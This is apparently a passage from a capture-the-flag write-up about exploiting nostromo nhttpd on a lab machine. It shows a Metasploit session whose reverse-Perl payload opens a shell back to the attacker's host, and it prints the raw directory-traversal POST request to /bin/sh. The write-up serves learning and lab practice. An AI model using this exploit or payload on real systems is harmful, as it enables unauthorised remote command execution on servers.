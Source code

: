 ```
nostromo nhttpd 1.9.3 - Directory Traversal Remote Command Execution                                                                                                                                       | linux/remote/35466.sh
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
```  
Since we are running nostromo 1.9.6, we have only two suitable options for exploiting the service: ```multiple/remote/47837.py``` and ```multiple/remote/47573.rb```, actually, those are different versions of the same exploit, one is running as a standalone python script, the other is a metasploit module.   
Let's dig into the metasploit module and, as always, see how the exploit works.  
Once we are into msfconsole, let's set the following parameters:  
```
sf6 > search nostromo

Matching Modules
================

   #  Name                                   Disclosure Date  Rank  Check  Description
   -  ----                                   ---------------  ----  -----  -----------
   0  exploit/multi/http/nostromo_code_exec  2019-10-20       good  Yes    Nostromo Directory Traversal Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/nostromo_code_exec

msf6 > use exploit/multi/http/nostromo_code_exec
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(multi/http/nostromo_code_exec) > set RHOSTS 10.10.10.165
RHOSTS => 10.10.10.165
msf6 exploit(multi/http/nostromo_code_exec) > set LHOST tun0
LHOST => 10.10.16.5
msf6 exploit(multi/http/nostromo_code_exec) > run

[*] Started reverse TCP handler on 10.10.16.5:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.10.16.5:4444 -> 10.10.10.165:56850 ) at 2022-03-23 10:12:02 +0100

whoami

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
As we can see, after setting the proper parameters we can pop the execution of a shell.  
Now, as always, let's analyze the script by setting proxy to localhost so that burp can intercept requests.  
As we intercept the exploit's requests, we can see the following request coming through:  
```
POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.1
Host: 10.10.10.165
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 12_2_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.81 Safari/537.36
Content-Length: 245
Content-Type: application/x-www-form-urlencoded
Content-Length: 245
Connection: close

echo
echo
```